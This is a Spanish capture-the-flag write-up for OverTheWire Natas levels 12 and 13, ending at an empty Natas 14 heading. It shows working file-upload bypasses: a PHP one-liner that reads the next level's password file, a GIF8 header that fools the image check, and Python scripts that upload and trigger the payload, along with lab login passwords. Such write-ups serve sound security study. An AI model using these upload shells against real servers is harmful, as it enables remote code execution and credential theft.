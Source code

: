 Aquí hay un panel dónde podemos subir una foto, nos dicen que tiene que pesar máximo 1KB. Una vez subido te da un enlace para visualizarlo.
La cosa es crear un php ```<?php system("cat /etc/natas_webpass/natas13"); ?>``` con el nombre "natas.jpg"

Hay dos maneras de hacer esto
1. Subir el archivo pero interceptar con el burpsuite, cambiando el "filename: " de "natas.jpg" a "natas.php"
2. Hacer un script de python

```python
import requests
import re

url = 'http://natas12.natas.labs.overthewire.org/index.php'
name = 'natas12'
password = 'EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3'
php = open('natas.jpg', 'rb')
# Subimos el archivo
req = requests.post(url, auth=(name, password), data = {"filename":"natas.php", "MAX_FILE_SIZE":"1000"}, files = {"uploadedfile": php})
# Pillamos el link que nos da
url2 = url.replace("index.php", re.findall(r'<a href="(.*?)">',req.text)[0])
req2 = requests.get(url2, auth=(name, password))
print(req2.text) # Imprimir el resultado del php interpretado
```
## Natas13

Igual que antes, pero ahora valida que lo que subamos sea una foto, asi que el "natas.jpg" es algo diferente. ¿Como sabe el sistema que es una foto a parte de por la extension? Porque lee los primeros bits. Dichos bits en cualquier archivo son la cabecera, los cuales dicen que clase de archivo es.
Para imagenes se suele usar "GIF8"
```
GIF8;
<?php system("cat /etc/natas_webpass/natas14"); ?>
```
```python
import requests
import re

url = 'http://natas13.natas.labs.overthewire.org/index.php'
name = 'natas13'
password = 'jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY'
php = open('natas.jpg', 'rb')

req = requests.post(url, auth=(name, password), data = {"filename":"natas.php", "MAX_FILE_SIZE":"1000"}, files = {"uploadedfile": php})
url2 = url.replace("index.php", re.findall(r'<a href="(.*?)">',req.text)[0])
req2 = requests.get(url2, auth=(name, password))
print(req2.text)
```
## Natas 14
